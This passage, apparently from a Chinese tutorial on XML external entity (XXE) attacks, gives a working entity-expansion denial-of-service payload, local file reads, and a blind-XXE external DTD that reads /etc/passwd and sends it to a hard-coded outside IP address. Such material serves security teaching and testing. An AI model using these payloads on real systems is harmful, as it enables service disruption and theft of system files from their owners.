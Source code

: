 1. DDoS攻击：分布式拒绝服务攻击，由很多攻击方式，这里使用的是一种称为洪水攻击的DDos方式，即攻击者对网络资源发送过量数据导致

2. 利用内部普通实体进行的DDOS攻击：叠加DTD实体进行攻击，即在一个实体内调用多个其它的实体

   ~~~xml-dtd
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [
     <!ELEMENT foo ANY>
     <!ENTITY bar "World ">
     <!ENTITY t1 "&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;&bar;">
     <!ENTITY t2 "&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;">
     <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;&t2;">
     <!-- 定义时，最多进行3次引用 -->
   ]>
   <foo>
     <!-- 引用时，没有次数限制 -->
     Hello &t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;&t3;
   </foo>
   ~~~

### 三、XXE的利用

1. 有回显的XXE：可以直接在页面中看到payload的执行结果或现象

   > 1. 使用file协议读取本地文件
   > 2. DDos攻击

2. 无回显的XXE：不能在页面上查看payload的执行结果

   > 使用外带数据，把数据发送到远程服务器上：通过外部DTD的方式可以将内部参数实体的内容与外部DTD声明的实体内容拼接起来，利用payload从目标主机读取到文件内容后，将文件内容作为url的一部分来请求我们本地监听的端口

   ~~~xml
   <!-- 外部DTD：本地文件为xxe.dtd -->
   <!-- 1. 通过file协议将数据读入内部参数实体 -->
   <!ENTITY % file SYSTEM 'file:///d:/1.txt'>	
   <!-- 2. 使用base64加密的方式读取数据传输给目标主机 -->
   <!ENTITY % file SYSTEM 'php://filter/read=convert.base64-encode/resource=file:///etc/passwd'>
   <!-- 通过外部参数实体将数据传输给目标主机 -->		 <!-- &#37;为%的字符编码 -->
   <!ENTITY % send "<!ENTITY &#37; data SYSTEM 'http://120.79.135.77:1234/?p=%file;'>">
   %send;
   %data;
   ~~~

   ~~~xml
   <!-- 外部DTD的引入 -->
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo SYSTEM "http://120.79.135.77/temp/xxe.dtd">
   ~~~

3. 漏洞发现：

   > 1. 请求包中的`Content-Type`为`application/xxe`或`application/json`（将其改为`application/xxe`）
   >
   > 2. 如果站点解析xml（内部普通实体），如果可以解析，则存在xxe漏洞【有回显的XXE】
   >
   >    示例：将向实例代码的数据添加到请求体存在回显的位置上
   >
   >    ~~~xml-dtd
   >    <?xml version="1.0" encoding="UTF-8"?>
   >    <!DOCTYPE root[
   >      <!ENTITY test "---test---">
   >    ]>
   >    <root>
   >    	&test;
   >    </root>